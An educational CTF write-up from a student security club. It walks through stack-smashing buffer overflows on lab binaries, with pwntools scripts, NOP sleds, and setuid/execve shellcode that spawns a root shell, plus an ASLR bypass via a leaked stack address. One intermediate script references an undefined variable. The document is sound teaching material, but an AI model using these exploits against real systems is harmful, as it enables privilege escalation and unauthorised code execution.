


# Introduction to Stack Smashing


This week, Ben introduced the concept of stack smashing, demonstrating the most basic form of buffer overflow attacks, the stack smash.

Presentation slides [here](presentation.pdf)

The term stack smashing was first coined in the Phrack article [Smashing the Stack for Fun and Profit](http://phrack.org/issues/49/14.html). It is a term used to describe the technique of overflowing a buffer, writing shellcode onto the stack (and sometimes a NOP sled), and then overwriting the return address of a the stack frame with the address near the start of the payload. During the session we also recapped some fundamentals about memory layout and binary protections. This article will walk through the demo challenge 1, as well as the solutions for challenges 1 and 2 on CTFd.

## Demo Challenge 1

For this challenge, we disabled the kernel level protection ASLR using the following command:

```bash
echo 0 > /proc/sys/kernel/randomize_va_space
```

The binary has been compiled with no protections, besides partial RelRO (which we will look at in more depth at a later date). We can confirm this using checksec. You can download it [here](binaries/demo)

```
> checksec --file challenge
[*] '/home/sharmoos/Documents/github/Content/week_7_bof/demo/demo_1/new/challenge'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

NX Stack is disabled, meaning the stack is executable. The fact the stack is executable means that shellcode can be entered onto the stack and then get executed, because ASLR is disabled, we can hard code the addresses needed when jumping to the start of our shellcode. 

Let's use GDB to collect all the values we need. First we should find the offset to the return pointer, knowing this will allow us to place our own address and the instruction pointer will return there when the function has finished executing.

We can use the cyclic command to generate a string where no 8 bytes are the same, entering this into the program will allow us to locate the offset.

```py
pwndbg> cyclic 500 -n=8
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaazaaaaaabbaaaaaabcaaaaaabdaaaaaabeaaaaaabfaaaaaabgaaaaaabhaaaaaabiaaaaaabjaaaaaabkaaaaaablaaaaaabmaaaaaabnaaaaaaboaaaaaabpaaaaaabqaaaaaabraaaaaabsaaaaaabtaaaaaabuaaaaaabvaaaaaabwaaaaaabxaaaaaabyaaaaaabzaaaaaacbaaaaaaccaaaaaacdaaaaaaceaaaaaacfaaaaaacgaaaaaachaaaaaaciaaaaaacjaaaaaackaaaaaaclaaaaaacmaaa
```

We can then run the program and enter this string. When the program crashes we can see the offset in Pwn-Dbg.



The top of the stack pointer indicated the offset to us, we can see the bytes are `oaaaaaab`. So the offset is 312.


```py
pwndbg> cyclic -l oaaaaaab -n=8
312
```

We confirm this to be true by sending 312 bytes of junk data and then a fake address. If we get a segfault and the malicious address is sitting in the instruction pointer, we got the correct offset. Running the following script and attaching GDB to it will allow us to check this (`attach <pid>).

```py
#!/usr/bin/env python3
from pwn import *

elf = ELF("./challenge")
context.binary = elf

#context.log_level = "debug"
p = process([elf.path])

pause() # pid will be printed here. Then need to hit enter to continue

p.sendlineafter(b"Overflow me", b"A" * 312 + p64(0xdeadbeef))

p.interactive()
```


Lets calculate the address of the start of our shellcode. Let's load the binary in GDB and set a breakpoint on the `gets` instruction, which is collecting our user input. The address that the user input is being written to resides in `rdi`

```py
pwndbg> b *unsafe+41
Breakpoint 1 at 0x40116f
pwndbg> r
Breakpoint 2, 0x000000000040116f in unsafe ()
pwndbg> p/x $rdi
$1 = 0x7fffffffd500
```

So the address we need to return to is `0x7fffffffd500`. Now we simply need to write some shellcode, place it at the start of our buffer, and change the return address to `0x7fffffffd500`. Hopefully the comments explain any code. We can also add a NOP sled to allow our return address to be less accurate. (If the ret lands anywehere in the NOP sled will take the `rip` to our shellcode.)

The binary is owned by root, and with SUID permissions, meaning we can attempt privilege escelation too.

```py
#!/usr/bin/env python3
from pwn import *

elf = ELF("./challenge")
context.binary = elf
#context.log_level = "debug"

p = process([elf.path])

shellcode = asm("""
/* setuid rdi = 0 */
xor rdi, rdi
xor rsi, rsi
xor rdx, rdx
mov rax, 105
syscall

/* execve rdi=/bin/sh rsi=0 rdx=0 */
lea rdi, [rip+binsh]
xor rsi, rsi
xor rdx, rdx
mov rax, SYS_execve
syscall
binsh:
    .string "/bin/sh"
""")

p.sendlineafter(b"Overflow me", flat({200: shellcode , # place shellcode 200 bytes from the start of the buffer
                                      312: p64(0x7fffffffd588)}, # address near the start of the buffer
                                      filler = b"\x90")) # pad with NOPs to create a nop sled


p.interactive()
```

We were successful. 


From here we will be moving to the challenge binaries, so if you don't want any spoilers then leave here. We will re enable ASLR too.

```bash
echo 2 > /proc/sys/kernel/randomize_va_space
```

## Challenge 1

The challenge simply takes an input, prints an outout, and exits. You can download the challenge binary [here](binary/challenge_1)

```
> ./challenge
foobar
try harder?
```

Looking at the disassembly of the binary in Rizin Cutter, we see that the aim of this challenge is to get the value `0xdeadbeef` into a specific stack address. This challenge tests our understanding of finding offsets between stack addresses when ASLR is enabled.


So we know that the address we want to overwrite is located at `rbp-0x4`, and the address of our input buffer is `rbp-0x50`. So some simple maths will tell us the distance between the two is 76.

```py
pwndbg> b *vuln+37
Breakpoint 1 at 0x40118b
pwndbg> p/d ($rbp-0x50) - ($rbp-0x4)
$9 = -76
```

So our Python script just needs to pack `0xdeadbeef` into a 64 bit byte value, and then send it with an offset of 76.

```py
#!/usr/bin/env python3

from pwn import *

elf = ELF("./challenge", checksec=False)
context.binary = elf

p = process([elf.path])

offset = 76

payload = b"A" * offset + p64(0xdeadbeef) # pack as 64 bit little endian

p.sendline(payload)
p.interactive()
```

We won!


## Challenge 2 

Challenge 2 is essentially the same as challenge 1. It demonstrates that once we have a stack address, ASLR becomes a mere inconvenience. In this challenge the stack address is given to us, but it represents a situation where the attacker could leak a stack address, for example via a format string vuln. You can download it [here](binary/challenge_2)


Running the binary, we are given a stack address.

```
> ./challenge
Here is a free stack address 0x7ffd354b7590
Overflow me
foobar
```

We won't cover finding the offset, as it has been covered previously in this article. The offset is 216.

```py
#!/usr/bin/env python3

from pwn import *

elf = ELF("./challenge")
context.binary = elf

#context.log_level = "debug"

p = process([elf.path])

offset = 216

p.recvuntil(b"free stack address ")
leak = int(p.recvline()[:-1], 16)
info(f"{hex(leak)}")

shellcode = flat({216: p64(0xdeadbeef)}, filler=b"\x90")

p.sendlineafter(b"Overflow me\n", payload)
p.interactive()
```

If we attach GDB to the process `attach 10528`, we can see that the stack leak matches the start address of the input buffer. 




This means we can just jump back to the address that is leaked in order to execute our shellcode. A nop sled will catch any stack changes at runtime.


```py
#!/usr/bin/env python3

from pwn import *

elf = ELF("./challenge", checksec=False)

context.binary = elf
rop = ROP(elf)

#context.log_level = "debug"

p = process([elf.path])
pause()
offset= 216

shellcode = asm("""
/* execve /bin/sh */
lea rdi, [rip+binsh]
xor rsi, rsi
xor rdx, rdx
mov rax, SYS_execve
syscall
binsh:
    .string "/bin/sh"
""")

p.recvuntil(b"free stack address ")
leak = int(p.recvline()[:-1], 16)
info(f"Leaked stack @ {hex(leak)}")
payload = flat({130: shellcode, 216: p64(leak)}, filler=b"\x90")

p.sendlineafter(b"Overflow me\n", payload)
p.interactive()
```


We achieved code exection again. This exploit should also work on the remote host.


## Conclusion

That brings us to the end of another ComSec writeup. Make sure you attempt task 3, and if you found all those easy then try some of the pwn challenges on Hack The Box! As always feel free to contact me on the Discord server if you have any questions.
